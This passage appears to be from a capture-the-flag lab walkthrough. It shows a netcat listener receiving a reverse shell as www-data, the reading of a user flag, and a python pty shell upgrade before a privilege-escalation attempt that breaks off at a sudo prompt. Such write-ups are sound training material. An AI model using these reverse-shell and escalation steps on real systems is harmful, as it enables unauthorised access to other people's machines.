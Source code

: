 ```sh
cmd:bash welcome.sh

```

```sh
└─$ nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.82.45] 34508
bash: cannot set terminal process group (957): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

# I'm in
- **Its actually the normal users end**

```sh
www-data@ubuntu:/var/www/html$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
www-data
www-data@ubuntu:/home$ cd www-data
cd www-data
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b 

```

> ### user.txt : `6470e394cbf6dab6a91682cc8585059b`

## Privilege Escalation
```sh
www-data@ubuntu:/home/www-data$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified

```
- **Its simply means that we don't have the terminal shell we have to get the terminal shell**

### Getting the terminal Shell
```sh
python -c "import pty; pty.spawn('/bin/bash')"

stty raw -echo

www-data@ubuntu:/var/www/html$ sudo -l         
[sudo] password for www-data: 


```
